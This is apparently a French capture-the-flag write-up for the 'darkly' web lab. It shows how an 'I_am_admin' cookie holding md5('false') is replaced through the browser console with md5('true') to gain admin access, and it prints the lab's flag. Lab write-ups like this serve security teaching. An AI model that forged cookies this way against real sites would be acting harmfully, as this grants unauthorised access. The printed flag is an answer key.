 # HTPASSWD

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Découverte

Lorsqu'on regarde les cookies enregistré par le site dans la console voici ce \
qui en ressort :

```diff
document.cookie
> "I_am_admin=68934a3e9455fa72420237eb05902327"
```
68934a3e9455fa72420237eb05902327 est crypté en md5 et signifie "false". \
Essayons donc avec "true".

```
68934a3e9455fa72420237eb05902327 -> "false"
"true" -> b326b5062b2f0e69046810717534cb09
```

```
document.cookie="I_am_admin=b326b5062b2f0e69046810717534cb09"
```

Lorsqu'on rafraichit la page bingo, une alerte avec le flag !



## Documentation
- [owasp - Session Management](https://owasp.org/www-project-cheat-sheets/cheatsheets/Session_Management_Cheat_Sheet.html)

---

[RETURN](https://github.com/jlange91/darkly)
